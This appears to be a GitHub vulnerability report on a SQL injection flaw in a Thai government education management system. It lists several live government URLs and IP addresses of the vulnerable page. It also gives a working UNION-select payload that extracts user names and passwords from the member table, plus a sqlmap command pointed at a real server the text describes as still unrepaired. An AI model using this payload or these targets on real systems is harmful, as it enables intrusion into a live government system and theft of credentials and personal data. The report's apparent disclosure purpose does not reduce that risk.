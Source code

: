 `Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> 1.http://eme1.obec.go.th/~eme62/repschoolproj.php?claster=school&idarea=648  
> 2.http://203.159.250.192/~eme52/repschoolproj.php?claster=school&idarea=648  
> 3.http://203.159.250.194/~eme53/repschoolproj.php?claster=school&idarea=648  
> 4.http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648  
> 5.http://203.159.250.193/~eme63/repschoolproj.php?claster=school&idarea=648  
> 6.more.....  
`Exploit:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648 /**/uNiOn /**/select/**/ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271608-f84fa56c-e571-4bad-977d-1f3758c20f6f.png)
![图片](https://user-images.githubusercontent.com/110643835/188271644-c6d1d05c-09ec-4785-9507-0809d0c48e22.png)

Or use sqlmap for injection
> POC: sqlmap.py -u "http://203.159.164.54/~eme54/repschoolproj.php?claster=school&idarea=648*"

